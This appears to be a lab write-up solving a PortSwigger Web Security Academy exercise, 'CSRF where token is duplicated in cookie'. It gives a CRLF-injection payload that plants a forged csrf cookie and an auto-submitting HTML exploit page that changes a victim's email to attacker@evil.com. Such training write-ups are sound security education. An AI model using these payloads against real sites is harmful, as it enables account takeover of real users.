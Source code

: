 # CSRF where token is duplicated in cookie

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie), you'll learn: CSRF where token is duplicated in cookie! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215043750.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215043838.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215043844.png)

In previous labs, we found that the email change functionality is **vulnerable to CSRF**, and also found **CRLF injection** vulnerability in home page's search post.

**Let's try to update our email, and intercept the request via Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044220.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044302.png)

**As you can see, our `csrf` cookie value is match to POST parameter `csrf` value!** This is so call the "double submit" defense against CSRF.

**Hmm... What if I change one of those `csrf` value?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044519.png)

As expected, it outputs `Invalid CSRF token`.

**To bypass this protection, we can find something in website that changes or set a new cookie.**

**In home page, there is a `Search` button that allows users to search different blogs:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044653.png)

**Let's intercept a request via Burp Suite's Repeater!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044728.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044754.png)

As you can see, it's sending a GET request to `/` with parameter `search`.

**Also, after sending that request, a new cookie value will be set: `LastSearchTerm=<search_parameter_value>`!**

**In the previous lab, we found that it's vulnerable to CRLF injection, which enables attacker to add a new cookie!**

**Payload:**
```
/?search=anything%0d%0aSet-Cookie:csrfKey=CRLF%3b%20SameSite=None
```

> Note: The `%3b%20` means `; `, and we need `SameSite` is set to `None`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215045030.png)

**That being said, we can forge a `csrf` cookie to the victim browser!**

**To do so, we can use the `exploit server`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215045143.png)

**Then, we can craft a HTTP form that performs CSRF attack, and send that exploit to the victim:**
```html
<html>
	<head>
		<title>CSRF-6</title>
	</head>
	<body>
		<form action="https://0ab3007f03fa8b1bc00a77b2008100dd.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		    <input type="hidden" name="csrf" value="5GaeDcsD8nJ2iTzyOGIcnydqApFgwUkK">
		</form>
		<img src="https://0ab3007f03fa8b1bc00a77b2008100dd.web-security-academy.net/?search=anything%0d%0aSet-Cookie:csrf=5GaeDcsD8nJ2iTzyOGIcnydqApFgwUkK%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215045458.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215045507.png)

We successfully changed a victim's email address!

# What we've learned:

1. CSRF where token is duplicated in cookie